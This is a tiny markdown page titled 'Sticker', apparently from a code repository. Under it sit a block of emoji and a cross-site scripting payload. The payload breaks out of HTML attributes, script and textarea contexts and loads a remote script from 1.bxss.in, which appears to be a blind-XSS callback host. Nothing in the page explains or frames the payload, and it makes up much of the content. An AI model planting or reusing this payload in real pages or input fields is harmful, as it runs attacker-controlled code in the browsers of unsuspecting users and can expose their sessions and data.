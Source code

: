 # Sticker
```javascript
😍🥰🥲🤩😊🙃🤔
```

```javascript
'"/></script></textarea><script src=https://1.bxss.in></script>//<"
```
